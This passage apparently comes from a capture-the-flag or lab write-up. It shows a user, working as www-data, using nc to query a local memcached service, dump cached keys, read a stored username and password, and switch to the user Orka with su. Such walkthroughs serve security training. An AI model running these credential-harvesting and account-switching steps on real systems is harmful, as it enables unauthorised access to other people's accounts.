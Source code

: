```
STAT items:1:lrutail_reflocked 0
END
```

**Get key names:**
```
www-data@osboxes:/$ echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
ITEM id [4 b; 1663932067 s]
ITEM email [14 b; 1663932067 s]
ITEM salary [8 b; 1663932067 s]
ITEM password [15 b; 1663932067 s]
ITEM username [4 b; 1663932067 s]
END
```

**`cachedump 1` has `password` and `username`!**

**Let's get the saved info:**
```
www-data@osboxes:/$ echo "get username" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE username 0 4
Orka
END

www-data@osboxes:/$ echo "get password" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE password 0 15
{Redacted}
END
```

**Found `Orka` password!**

Let's **Switch User** to `Orka`!

```
www-data@osboxes:/$ su Orka
Password: 
Orka@osboxes:/$ whoami;hostname;id;ip a
Orka
osboxes
uid=1001(Orka) gid=1001(Orka) groups=1001(Orka)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:94:36:70:83:dd brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.35/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::94:36ff:fe70:83dd/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm `Orka`!
